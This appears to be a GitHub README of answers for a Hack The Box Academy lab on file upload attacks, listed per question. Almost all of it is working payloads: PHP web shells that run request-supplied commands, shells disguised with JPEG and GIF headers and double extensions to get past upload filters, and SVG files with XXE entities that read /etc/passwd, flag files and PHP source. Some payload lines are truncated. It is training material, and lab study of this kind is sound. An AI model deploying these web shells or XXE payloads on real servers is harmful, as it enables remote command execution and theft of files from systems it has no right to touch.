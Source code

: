 # Useful Links
[PHP extension list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)

# Useful Shells

## Question 1
shell.php
```php
<?php system('hostname'); ?>
```

## Question 2
shell.php
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 3
shell.php
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 4
shell.phar
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 5
shell.phar.jpg
```php
����^@^PJFIF^@^A^A^A^A,^A,^@^@��^@dExif^@^@II*^@^H^@^@^@^B^@^N^A^B^@-^@^@^@&^@^>
<?php system($_REQUEST['cmd']);?>
```

## Question 6
shell.phar.gif
```php
GIF8
<?php system($_REQUEST['cmd']);?>
```
shell.gif.phar
```php
GIF8
<?php system($_REQUEST['cmd']);?>
```

## Question 7
shell.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
shell2.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```
shell3.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resourc>
<svg>&xxe;</svg>
```

## Skills Assessment - File Upload Attacks

shell.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

shell2.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=common-functions.php"> ]>
<svg>&xxe;</svg>
```

shell.phar.jpeg
```php
����^@^PJFIF^@^A^A^A^A,^A,^@^@��^@dExif^@^@II*^@^H^@^@^@^B^@^N^A^B^@-^@^@^@&^@^>
<?php system($_REQUEST['cmd']);?>
```

# Useful Code
[upload.php](https://github.com/r4fik1/HTB_Academy/blob/main/HTB_File_Upload_Attacks/Skill%20Assessment%20-%20File%20Upload%20Attacks/upload.php)

[common-functions.php](https://github.com/r4fik1/HTB_Academy/blob/main/HTB_File_Upload_Attacks/Skill%20Assessment%20-%20File%20Upload%20Attacks/common-functions.php)
